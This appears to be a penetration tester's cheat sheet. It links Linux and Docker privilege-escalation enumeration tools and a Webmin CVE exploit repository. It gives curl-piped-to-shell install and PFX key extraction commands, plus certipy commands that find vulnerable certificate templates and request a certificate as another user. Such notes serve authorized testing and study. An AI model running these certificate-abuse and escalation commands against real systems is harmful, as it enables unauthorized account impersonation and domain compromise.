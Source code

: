 # Linux

### **Enumeration**

#### [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh)

#### [**LinEnum**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

#### [**LES**](https://github.com/The-Z-Labs/linux-exploit-suggester.git)

## Docker

### **Enumeration**

[**CDK**](https://github.com/cdk-team/CDK/releases/download/v1.5.2/cdk_linux_amd64)

[**AmIContained**](https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64)

[**DEEPCE**](https://github.com/stealthcopter/deepce/raw/main/deepce.sh)

[**Grype**](https://raw.githubusercontent.com/anchore/grype/main/install.sh)

```bash
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b <InstallPath>
```

# Additional Notes

**Webmin Vulns**
[Webmin-CVE](https://github.com/kh4sh3i/Webmin-CVE)

**Split PKI Into Key Pair**

```sh
openssl pkcs12 -in <pfx> -nocerts -out <key>
openssl pkcs12 -in <pfx> -clcerts -nokeys -out <crt>
```
**Enumerate Vulnerable Certificate Templates**

```sh
certipy find -enabled -vulnerable -target <target> -u <usr> -p <pwd> -stdout
```

**Request Signed PFX as Alternate Subject**

```sh
certipy req -ca <CA> -template UserAuthentication -upn <upn/email> -target <target> -u <usr> -p <pwd>
```
